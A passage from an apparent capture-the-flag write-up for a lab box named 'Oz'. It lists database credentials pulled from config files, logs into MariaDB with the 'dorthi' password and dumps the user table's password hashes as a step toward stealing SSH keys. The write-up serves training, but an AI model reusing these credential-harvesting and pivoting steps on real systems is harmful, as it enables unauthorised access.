 

From these three files I'll take the following pieces of information:

-   database is hosted on 10.100.10.4
-   database has a user 'dorthi' with password 'N0Pl4c3L1keH0me'
-   database has a user 'root' with password 'SuP3rS3cr3tP@ss'
-   the database container has the host system's `/connect/sshkeys`
    mapped read only as `/home/dorthi/.ssh/`

And I'll remember from the tickets above that rsa keys for ssh access
are in /home/dorthi on the db container.

## Pivot to Oz - Shell As dorthi

I've got all the information I need now to get a shell on the main Oz
host as dorthi.

### Get SSH Key

#### Connect to Database

First, I need to get the SSH key from the database server. I'll connect
with the creds I have:



    /app/ticketer # mysql -h 10.100.10.4 -u dorthi -pN0Pl4c3L1keH0me           
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 3                                                
    Server version: 5.5.59-MariaDB-1~wheezy mariadb.org binary distribution
                                                                               
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.        
                                                                                 
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 
                                                                               
    MariaDB [(none)]>



There's not much exciting in it. There's hashes for the root and dorthi
user:



    MariaDB [mysql]> select host,user,password from user;
    +-----------+--------+-------------------------------------------+
    | host      | user   | password                                  |
    +-----------+--------+-------------------------------------------+
    | localhost | root   | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
    | %         | dorthi | *43AE542A63D9C43FF9D40D0280CFDA58F6C747CA |
    | %         | root   | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
    +-----------+--------+-------------------------------------------+
    3 rows in set (0.01 sec)

